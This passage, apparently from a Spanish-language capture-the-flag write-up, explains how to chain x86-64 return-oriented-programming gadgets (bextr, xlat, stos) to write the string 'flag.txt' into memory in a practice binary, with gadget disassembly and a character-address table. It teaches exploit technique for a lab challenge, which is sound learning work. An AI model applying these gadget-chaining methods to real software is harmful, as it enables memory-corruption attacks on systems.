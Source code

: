 Los bits de rdx significarán:

| 15<–––>8 | 7<–––>0       |
| -------- | ------------- |
| Tamaño   | Bit de inicio |

Si queremos copiar todo *rcx* en *rbx*, *rdx* debe valer `0x4000`.

| 15–––->8 | 7<–––>0  |
| -------- | -------- |
| 01000000 | 00000000 |
Lo que significa que podemos controlar *rbx* utilizando *rcx* y *rdx*.

[stos](https://www.felixcloutier.com/x86/stos:stosb:stosw:stosd:stosq)
> The STOS instruction copies the data item from AL (for bytes - STOSB), AX (for words - STOSW) or EAX (for doublewords - STOSD) to the destination string, pointed to by ES:DI in memory.

Es decir, con estos gadgets, podemos:

- Modificar un bit de *rdi*, desde *al*.
- Modificar *al*, desde *rbx*.
- Modificar *rbx*, desde *rcx* y *rdx*.

# Explotación

Antes de empezar debemos tener en cuenta una cosa:

```
0x000000000040062a <+2>: pop    rdx
0x000000000040062b <+3>: pop    rcx
0x000000000040062c <+4>: add    rcx,0x3ef2
0x0000000000400633 <+11>: bextr  rbx,rcx,rdx
0x0000000000400638 <+16>: ret
```

Si nos fijamos, suma `0x3ef2` a *rcx*, por lo que antes de llamar a dicho gadget debemos restar dicho valor.

Continuando:

```
0x0000000000400628 <+0>:	xlat   BYTE PTR ds:[rbx]
0x0000000000400629 <+1>:	ret
```

Debemos hacer que *al* valga `0`, ya que lo que hace es almacenar en *al*, `al + rbx[al]`. Para ello tenemos varios gadgets:

```
0x0000000000400610 : mov eax, 0 ; pop rbp ; ret
```

Finalmente, como no podemos pasar la string `flag.txt`, debemos buscarla en el binario, además no está como tal, por lo que tomaremos carácter a carácter:

```
(0x4003c4, 0), # 'f'
(0x4003c5, 1), # 'l'
(0x4003d6, 2), # 'a'
(0x4003cf, 3), # 'g'
(0x40024e, 4), # '.'
(0x400192, 5), # 't'
(0x400246, 6), # 'x'
(0x400192, 7), # 't'
```
